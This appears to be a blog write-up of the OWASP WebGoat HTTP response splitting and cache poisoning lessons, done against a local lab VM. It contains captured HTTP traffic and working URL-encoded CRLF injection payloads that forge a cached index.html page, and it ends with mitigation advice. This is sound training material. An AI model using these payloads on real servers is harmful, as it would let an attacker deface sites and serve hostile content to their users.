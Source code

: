 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 1"
date:   2017-01-24 00:01:00 -0500
categories: webgoat
---
```

# HTTP Response Splitting
HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the response parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert newline characters(%0a on Linux, %0a%0d on Windows) into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, there is another response that was created from our first request. Using this response combined with some knowledge of how the webcache and webserver interact, we can craft an attack that could affect any other users of the resource.

# Cache Poisoning
So we have previously shown that we can split a single request into two separate responses, the second of which is completely attacker controlled. Now we can manipulate a mechanism that the webserver and webcache use for serving content in order to expose our crafted response to the maximum number of target users of the website.

Remember that in our first HTTP splitting example, the truncated response for the redirect resource was matched to our intial request. This left our payload response "on the wire" so to speak, as there was not a matching request for this resource. In a naive attack, the next request for a resource would be matched to our payload response and the payload would be served to whoever sent that request. However, we want to maximize the impact of our attack. Enter caching.

Caching is a way that the webserver serves the most up-to-date version of a resource to users of the site. Any requests that are sent for a resource on a webserver are served the cached version of the resource. Using HTTP splitting, we can perform a "cache poisoning" attack, in which we replace the expected cache of a resource with our malicious version. This is done by adding a "Last-Modified" header to the forged request with a date in the future.

So, now our attack looks like this:

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aLast-Modified:%20Fri,%2020%20Jan%202018%2013:35:00%20EST%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

which translates to the following responses:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0

HTTP/1.1 200 OK
Last-Modified: Fri, 20 Jan 2018 13:35:00 EST
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now during this attack we send two requests. The first request is our malicious form, and the second request is for the webserver resource that we would like to replace with our malicious response, like so:

Request 1:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=foobar%0aContent-Length:%2043%0a%3Chtml%3E123456789012345678901234567890%3C/html%3E
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 271

language=test%250aContent-Length%3A%25200%250a%250aHTTP%2F1.1%2520200%2520OK%250aLast-Modified%3A%2520Fri%2C%252020%2520Jan%25202018%252013%3A35%3A00%2520EST%250aContent-Type%3A%2520text%2Fhtml%250aContent-Length%3A%252017%250a%3Chtml%3Epwnd%3C%2Fhtml%3E&SUBMIT=Search%21
```

Request 2:

```
GET /WebGoat/index.html HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```

When we send the malicious request, it is matched to the original redirect response. Now we have another response waiting to match with a request. Now our second request is received and matched with our malicious response. The webcache sees that the "Last-Modified" header is present in the response, and the date is more recent than the existing cached version, so it replaces the cache for the requested resource ("index.hmtl") with the malicious response ("<html>pwnd</html>").

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_1/part1pwnd.jpg">

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.

### Resources

1 [HTTP Response Splitting Whitepaper][http-splitting-whitepaper]

2 [OWASP HTTP Response Splitting][owasp-splitting]

[http-splitting-whitepaper]:https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf
[owasp-splitting]:https://www.owasp.org/index.php/HTTP_Response_Splitting